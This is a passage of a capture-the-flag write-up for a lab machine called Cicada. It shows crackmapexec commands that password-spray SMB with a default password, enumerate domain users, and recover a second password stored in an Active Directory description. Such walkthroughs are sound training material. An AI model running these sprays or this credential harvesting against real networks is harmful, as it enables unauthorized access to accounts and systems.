


To carry out the password spray attack, we once again use "crackmapexec". We provide the file containing the discovered users along with the default password "Cicada$M6Corpb*@Lp#nZp!8", allowing crackmapexec to test that password against each user in the list.
```bash
$ crackmapexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```


The user “michael.wrightson” still using the default password.
```bash
User: michael.wrightson
Password: Cicada$M6Corpb*@Lp#nZp!8
```
Unfortunately, michael.wrightson does not have permission to access the remaining shares. However, we can still leverage his access to enumerate other users on the system and gather additional information that may be useful.
```bash
$ crackmapexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```


It appears that the user “david.orelious” stored their password "aRt$Lp#7t*VQ!3" in the AD description as a reminder. While this practice is still fairly common in real-world environments where convenience often outweighs security, it provides us with an opportunity to escalate our privileges.
```bash
User: david.orelious
Password: aRt$Lp#7t*VQ!3
```

[Back](README.md)